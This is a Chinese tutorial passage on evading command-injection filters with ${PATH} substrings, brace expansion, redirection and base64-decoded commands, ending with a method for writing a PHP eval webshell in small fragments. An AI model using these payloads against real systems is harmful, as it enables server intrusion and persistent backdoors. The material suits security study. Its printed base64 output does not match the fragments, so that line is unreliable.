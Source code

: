 如果我现在要查看/root/目录下的1.txt文件，就可以这样操作操作

```bash
cat ${PATH:0:1}${PATH:44:1}${PATH:22:1}${PATH:22:1}t${PATH:0:1}1.txt
```

![0aGAbT.png](https://s1.ax1x.com/2020/10/07/0aGAbT.png)

### 1.6 使用大括号绕过空格过滤

在linux下我们还可以使用大花括号来绕过空格的限制，比如ls -alt命令中间的空格

```bash
{ls,-alt}
```

![0aR39A.png](https://s1.ax1x.com/2020/10/07/0aR39A.png)

再比如cat /etc/passwd命令中间的空格

### 1.7 了解重定向符号在绕过中的作用

我们还可以使用<>来绕过空格。请仔细看执行后的效果。linux中，小于号<表示的是输入重定向，就是把<后面跟的文件取代键盘作为新的输入设备，而>大于号是输出重定向，比如一条命令，默认是将结果输出到屏幕。但可以用>来将输出重定向，用后面的文件来取代屏幕，将输出保存进文件里

```bash
ls<>a
```

![0a4IIO.png](https://s1.ax1x.com/2020/10/07/0a4IIO.png)

### 1.8linux中特殊的base64编码

我们还可以在自己的linux系统中将命令进行base64编码，然后再拿去目标请求中命令执行,使用base64的-d参数解码。

```bash
echo whoami|base64 //先输出whoami的base64编码
`echo dwhvYW1pCg==|base64 -d` //将其base64解码
```

![0aIdEV.png](https://s1.ax1x.com/2020/10/07/0aIdEV.png)

### 例子

我们可以根据base64进行一次发散思维。如果某处存在命令执行但是限制了长度，我们可以利用这种方式来写一个密码为123的webshell一句话木马。

```bash
echo "<?php @eval($_POST[123]);?>" | base64
//输出一句话的base64编码
PD9waHAgQGV2YWwoWzEyM10pOz8+Cg==
```

```bash
echo -n PD>a;
echo -n 9w>b;
echo -n aH>c;
echo -n Ag>d;
echo -n QG>e;
echo -n V2>f;
echo -n YW>g;
echo -n wo>h;
echo -n JF>i;
echo -n 9Q>j;
echo -n T1>k;
echo -n NU>l;
echo -n Wz>m;
echo -n Ey>n;
echo -n M1>o;
echo -n 0p>p;
```
